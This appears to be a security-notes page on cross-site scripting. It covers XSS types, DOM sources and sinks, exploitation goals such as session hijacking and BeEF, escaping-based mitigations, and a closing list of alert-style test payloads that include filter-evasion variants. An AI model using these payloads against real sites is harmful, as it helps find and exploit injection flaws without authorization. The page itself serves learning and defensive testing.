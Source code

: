 # XSS

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```

## Exploitation
- Session Hijacking (SEC542-4)
- Fake Page (SEC542-4)
- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

## Payloads
```Javascript
'"><script>alert('ehsan')</script>
a<script>alert('ehsan')</script>
a<SCript>alert('ehsan')</SCript>
a<scri<script>pt>alert('ehsan')</scri</script>pt>
a<img src='aaa' onerror='alert("ehsan")'/>
a<script>prompt('ehsan')</script>
a<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 101, 104, 115, 97, 110, 39, 41))</script>
a";alert("ehsan");//
a";alert("ehsan");"
a';alert('ehsan');//
a';alert('ehsan');'
/"><script>alert('ehsan')</script>
```
  
